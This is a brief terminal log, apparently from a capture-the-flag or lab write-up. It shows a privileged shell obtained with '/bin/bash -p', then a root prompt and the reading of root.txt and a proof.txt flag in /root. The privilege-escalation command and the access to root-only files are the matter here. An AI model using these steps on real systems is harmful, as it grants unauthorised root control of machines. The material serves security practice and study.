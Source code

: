 296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# ls
honeypot.decoy	honeypot.decoy.cpp  id	ifconfig  local.txt  ls  mkdir	process.sh  user.txt
bash-5.0# cd /root/
bash-5.0# 
bash-5.0# ls
chkrootkit-0.49  proof.txt  root.txt  script.sh
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0# cat proof.txt
9c44f7969ac22a551f9565d15930577c
bash-5.0# 




